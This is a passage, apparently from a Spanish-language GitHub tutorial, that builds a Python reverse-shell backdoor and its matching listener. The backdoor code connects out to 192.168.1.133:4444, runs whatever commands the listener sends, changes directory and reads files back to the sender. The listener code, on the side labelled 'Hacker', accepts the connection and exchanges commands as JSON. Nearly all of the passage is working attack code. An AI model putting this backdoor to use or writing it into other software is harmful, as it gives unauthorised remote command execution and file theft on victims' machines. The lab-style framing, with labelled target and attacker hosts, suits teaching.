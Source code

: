 ```bash
            comando = self.reception_segura()

            if comando[0] == "salir":
                self.connection.close()
                exit()
            elif comando[0] == "cd" and len(comando) > 1:
                resultado_comando = self.cambiar_directorio(comando[1])
            elif comando[0] == "descargar":
                resultado_comando = self.leer_archivo(comando[1])
            else:
                resultado_comando = self.ejecutar_comando(comando)
                
            self.envio_seguro(resultado_comando.decode("utf-8"))
       

backdoor = Backdoor("192.168.1.133",4444)
backdoor.run()
```

# Parrot (Target)

![implementamos opcion de descargar parrot](https://user-images.githubusercontent.com/97669969/157447199-e1c6c206-5de9-4f4c-add2-1ae7c601c988.png)



# Ubuntu (Hacker)

* listener.py

```bash
import socket
import json
from unittest import result

class Listener:

    def __init__(self,ip, port):
        listener = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        listener.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR, 1)
        listener.bind((ip,port))
        listener.listen(0)
        print("[+] Esperando por conexiones")
        self.connection,addres = listener.accept()
        print("[+] Tenemos una conexion de {}".format(addres))
        result = self.connection.recv(1024)
        print(result.decode("utf-8"))
    
    def envio_seguro(self,comando):
        json_data = json.dumps(comando)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        while True:

            try:
                json_data = self.connection.recv(1024).decode("utf-8")
                return json.loads(json_data)
                
            except:
                continue

```